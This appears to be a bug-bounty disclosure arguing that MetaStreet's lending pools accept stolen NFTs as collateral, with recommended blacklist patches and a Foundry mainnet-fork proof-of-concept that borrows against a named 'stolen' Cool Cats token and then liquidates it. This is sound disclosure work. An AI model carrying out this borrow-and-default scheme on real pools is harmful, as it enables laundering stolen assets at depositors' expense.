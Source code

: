 # NFT thieves can abuse MetaStreet to make profit by borrowing funds with stolen NFT as collateral.

## Bug Description
Major NFT marketplaces like OpenSea or Blur do not allow stolen NFTs to be traded.

But there's not mechanism to block stolen NFTs to be used as collateral.

https://github.com/metastreet-labs/metastreet-contracts-v2/blob/master/contracts/filters/CollectionCollateralFilter.sol#L59-L66
```solidity
    function _collateralSupported(
        address token,
        uint256,
        uint256,
        bytes calldata
    ) internal view override returns (bool) {
        return token == _token;
    }
```

A NFT thieves can borrow funds from MetaStreet to generate profit at the expense of the shareholders who are not aware of collateral's status.

Of course NFT thieves will not repay, liquidation will be started.

If community is aware of the status of NFT, there will be no bidders.

If community is not aware, there will be a bidding, but liquidation winner will get useless NFT.

## Impact
- MetaStreet can be used as a money laundering machine.

- Shareholder values will be affected by bad debt.

- Liquidation winner will get stolen NFT which is not usable in major platforms.

## Risk Breakdown
Difficulty to Exploit: Medium
Weakness: High
CVSS2 Score: 8

## Recommendation
`CollectionCollateralFilter.sol` should check if token id is in blacklist or not.

```solidity
+    mapping (uint256 => bool) public blacklist;

    function _collateralSupported(
        address token,
        uint256 tokenId,
        uint256,
        bytes calldata
    ) internal view override returns (bool) {
+       return token == _token && blacklist[tokenId] == false;
    }
```

It should also check collateral's status before liquidations starts.

https://github.com/metastreet-labs/metastreet-contracts-v2/blob/master/contracts/Pool.sol#L1086
```solidity
    function liquidate(bytes calldata encodedLoanReceipt) external nonReentrant {
        /* Compute loan receipt hash */
        bytes32 loanReceiptHash = LoanReceipt.hash(encodedLoanReceipt);

        /* Validate loan status is active */
        if (_loans[loanReceiptHash] != LoanStatus.Active) revert InvalidLoanReceipt();

+        for (uint256 i; i < collateralTokenIds.length; i++) {
+            if (!_collateralSupported(collateralToken, collateralTokenIds[i], i, collateralFilterContext))
+                revert UnsupportedCollateral(i);
+        }
        ...
    }
```

## Proof of Concept
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/interfaces/interface.sol";

interface IPoolFactory {
    function create(address poolImpl, bytes calldata params) external returns (address);

    function createProxied(address poolImpl, bytes calldata params) external returns (address);

    function owner() external view returns (address);
    
    function addPoolImplementation(address impl) external;
}

interface IPool {
	function deposit(uint128 tick, uint256 amount, uint256 minShares) external returns (uint256 shares);

	function borrow(
        uint256 principal,
        uint64 duration,
        address collateralToken,
        uint256 collateralTokenId,
        uint256 maxRepayment,
        uint128[] calldata ticks,
        bytes calldata options
    ) external returns (uint256);

	function liquidate(bytes calldata encodedLoanReceipt) external;

    function repay(bytes calldata encodedLoanReceipt) external returns (uint256);

    function redeem(uint128 tick, uint256 shares) external;

    function withdraw(uint128 tick) external returns (uint256, uint256);
}

interface IEnglishAuctionCollateralLiquidator {
	function bid(address collateralToken, uint256 collateralTokenId, uint256 amount) external;

    function claim(
        address collateralToken,
        uint256 collateralTokenId,
        bytes calldata liquidationContext
    ) external;
}
interface IBUSD is IERC20 {
    function assetProtectionRole() external returns (address);
    function freeze(address _addr) external;
}

IPoolFactory	constant factory = IPoolFactory(0x1c91c822F6C5e117A2abe2B33B0E64b850e67095);
address			constant poolImpl = 0x200927A3FDf2A1F67749385230dc7769e00308aA;
IEnglishAuctionCollateralLiquidator constant liquidator = IEnglishAuctionCollateralLiquidator(0xE0194F47040E2424b8a65cB5F7112a5DBE1F93Bf);
IBUSD  constant busd = IBUSD(0x4Fabb145d64652a948d72533023f6E7A623C7C53);
address constant depositor =  0x57D1974a8CA59146D91Dd8C5172110e5a390C048;
address constant bidder =  depositor;
address constant bidder2 =  0x12ED7f6ed0491678764c2b222A58452926E44DB6;
address constant borrower =  0x9773cc2b33C0791D1f35a93f6b895c6Ede1feb54;
address constant borrower2 = 0xB8B6910ed0cf70F92C9a6327838dad479302e7Ad;
address constant coolCats =  0x1A92f7381B9F03921564a437210bB9396471050C;
uint256 constant coolCatsId = 5827;
uint256 constant coolCatsId2 = 5118;

contract MetaStreetTest is Test {

    IPool       pool;

    function setUp() public {
        cheats.createSelectFork("mainnet");

        cheats.label(address(factory), "Factory");
        cheats.label(address(liquidator), "Liquidator");
        cheats.label(address(busd), "BUSD");

        uint64[] memory durations = new uint64[](1);
        uint64[] memory rates = new uint64[](1);

        durations[0] = 1 days;
        rates[0] = 3170979198;

        console.log("New pool created with BUSD...");
		pool = IPool(factory.createProxied(poolImpl, abi.encode(coolCats, busd, durations, rates)));
        cheats.label(address(pool), "Pool");
    }

    function testMetaStreetMoneyLaundering() external {
        uint128 tick = 1e26 << 8;
        uint128[] memory ticks = new uint128[](1);
        ticks[0] = tick;

        console.log("Step 1: Depositing...");
        cheats.startPrank(depositor);
        busd.approve(address(pool), type(uint256).max);
		pool.deposit(tick, 5 ether, 0);

        console.log("Step 2: Borrowing against stolen NFT...");
        cheats.startPrank(borrower);
        IERC721(coolCats).approve(address(pool), coolCatsId);

        cheats.recordLogs();
		pool.borrow(4 ether, 1 days, coolCats, coolCatsId, 5 ether, ticks, bytes(""));
        CheatCodes.Log[] memory entries = cheats.getRecordedLogs();
        bytes memory encodedLoanReceipt = abi.decode(entries[entries.length - 1].data, (bytes));

        console.log("Step 3: Liquidating...");
        cheats.warp(block.timestamp + 2 days);
		cheats.startPrank(depositor);
		pool.liquidate(encodedLoanReceipt);

        console.log("Step 3.1: Bidding...");
        busd.approve(address(liquidator), type(uint256).max);
		liquidator.bid(coolCats, coolCatsId, 6 ether);

        console.log("Step 3.3 Successful bidder will get stolen NFTs as a result.");
        cheats.warp(block.timestamp + 2 days);
		cheats.startPrank(bidder);
		cheats.expectRevert();
        liquidator.claim(coolCats, coolCatsId, encodedLoanReceipt);
    }
}
```